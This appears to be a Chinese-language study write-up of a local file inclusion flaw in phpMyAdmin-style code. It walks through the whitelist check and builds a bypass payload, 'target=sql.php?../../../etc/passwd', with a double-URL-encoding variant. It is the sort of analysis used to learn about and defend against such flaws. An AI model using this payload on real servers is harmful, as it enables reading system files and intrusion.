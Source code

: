 # include

全局搜索文件包含的关键函数include,require,找到能控制的传参
```
if (! empty($_REQUEST['target'])
    && is_string($_REQUEST['target'])
    && ! preg_match('/^index/', $_REQUEST['target'])
    && ! in_array($_REQUEST['target'], $target_blacklist)
    && Core::checkPageValidity($_REQUEST['target'])
) {
    include $_REQUEST['target'];
    exit;
}
```

找到黑名单target_blacklist
```
$target_blacklist = array (
    'import.php', 'export.php'
);
```
绕过须满足条件,
1.有参数传入
2.参数为字符
3.参数中不能以/^index/开头(这里没由匹配大小写)
4.参数不在黑名单内
5.绕过Core::checkPageValidity(全局搜索)
```
public static function checkPageValidity(&$page, array $whitelist = [])
    {
        if (empty($whitelist)) {
            $whitelist = self::$goto_whitelist;
        }
        if (! isset($page) || !is_string($page)) {
            return false;
        }

        if (in_array($page, $whitelist)) {
            return true;
        }

        $_page = mb_substr(
            $page,
            0,
            mb_strpos($page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        $_page = urldecode($page);
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        return false;
    }
```
这里原本函数没有设置白名单,与是自动引入白名单,全局搜索goto_whitelist
```
public static $goto_whitelist = array(
        'db_datadict.php',
        'db_sql.php',
        'db_events.php',
        'db_export.php',
        'db_importdocsql.php',
        'db_multi_table_query.php',
        'db_structure.php',
        'db_import.php',
        'db_operations.php',
        'db_search.php',
        'db_routines.php',
        'export.php',
        'import.php',
        'index.php',
        'pdf_pages.php',
        'pdf_schema.php',
        'server_binlog.php',
        'server_collations.php',
        'server_databases.php',
        'server_engines.php',
        'server_export.php',
        'server_import.php',
        'server_privileges.php',
        'server_sql.php',
        'server_status.php',
        'server_status_advisor.php',
        'server_status_monitor.php',
        'server_status_queries.php',
        'server_status_variables.php',
        'server_variables.php',
        'sql.php',
        'tbl_addfield.php',
        'tbl_change.php',
        'tbl_create.php',
        'tbl_import.php',
        'tbl_indexes.php',
        'tbl_sql.php',
        'tbl_export.php',
        'tbl_operations.php',
        'tbl_structure.php',
        'tbl_relation.php',
        'tbl_replace.php',
        'tbl_row_action.php',
        'tbl_select.php',
        'tbl_zoom_select.php',
        'transformation_overview.php',
        'transformation_wrapper.php',
        'user_password.php',
    );
```

这里的绕过思路基于mb_substr,mb_strpos,且进行了两次
 mb_strpos($_page . '?', '?')  的作用是：在字符串  $_page  的末尾追加一个问号  ? ，然后查找第一个问号  ?  的位置。这个操作通常用于 判断 URL 中是否存在查询参数（即  ?  后的部分），并安全地分割路径和参数。
 
构造payload:
?target=sql.php?
例子:target=sql.php?../../../etc/passwd
解析payload:
这里mbstrpos将取得sql.php后的?位置,导致取得的$_page为sql.php,满足条件成功让函数返回ture,回到include处,成功绕过所有条件,完成include函数的执行
这里也可以将?进行两次url编码,绕过下面的.

这里有个疑惑传include函数最终执行的是include('sql.php?../../../etc/passwd')将直接包含passwd,问AI原因:

